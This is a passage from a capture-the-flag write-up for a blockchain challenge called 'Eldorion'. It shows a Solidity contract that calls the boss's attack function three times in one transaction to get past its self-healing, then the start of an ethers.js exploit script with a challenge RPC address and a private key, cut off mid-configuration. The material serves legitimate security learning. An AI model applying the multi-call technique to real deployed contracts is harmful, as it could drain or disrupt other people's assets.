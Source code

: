 # blockchain


## Eldorion
> Solved by Starry-Lord

![](https://i.imgur.com/VxfRD0j.png)


This Beast was killed with adding an attacker.sol contract to bypass the “eternal resilience” function, which kept healing the boss after each attack. So we needed to make a triple attack:


    cat contracts/attack.sol                                                                                        
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface IEldorion {
        function attack(uint256 damage) external;
    }
    
    contract Attacker {
        function attackThree(address target) external {
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
        }
    }

here is the attack script with ethers.js v5 (because i never managed to make this challenge return valid JSON with v6:


    const fs = require("fs");
    const path = require("path");
    const solc = require("solc");
    const { ethers } = require("ethers");
    
    // === Config ===
    const RPC_URL = "http://83.136.253.25:50179";
    const PRIVATE_KEY = "0x0ce0d36d2fb2e0cfc7f413aec7acf865871b6f71f28ffda18cff63ab50a8c59c";
    
    const eldorionAddress = "0x6114F5Aca890BaE0b153de34Cd024ba24C2A3A68";
    const setupAddress    = "0xaed4036993875E6C22E37BC1a12EFB81e89A9222";
    
    const eldorionAbi = [
      "function health() view returns (uint256)",
      "function isDefeated() view returns (bool)"
    ];
    const setupAbi = [
      "function isSolved() view returns (bool)"
    ];
    const attackerAbi = [
      "function attackThree(address target) external"
    ];
    